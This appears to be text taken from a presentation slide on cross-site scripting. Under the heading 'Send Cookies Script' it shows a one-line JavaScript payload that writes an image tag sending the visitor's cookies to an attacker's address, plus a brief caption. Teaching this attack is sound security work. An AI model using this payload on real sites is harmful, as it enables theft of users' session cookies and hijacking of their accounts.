

document.write('<img src=http://192.168.0.172:80?c=' + escape(document.cookie) + ' >');
To sniff the cookie’s you have to bake’m into your HTTP request first
# Send Cookies Script